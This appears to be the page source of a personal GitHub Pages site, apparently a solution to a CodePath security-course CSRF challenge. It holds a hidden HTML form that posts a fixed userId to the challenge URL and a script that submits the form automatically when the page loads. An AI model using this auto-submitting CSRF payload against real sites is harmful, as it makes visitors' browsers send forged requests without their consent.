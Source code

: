 # JLPlummer79.github.io


<form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
  <input type="hidden" name="userId" value="74adf43a1036bfcf7daf75246270be0ee186c471"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
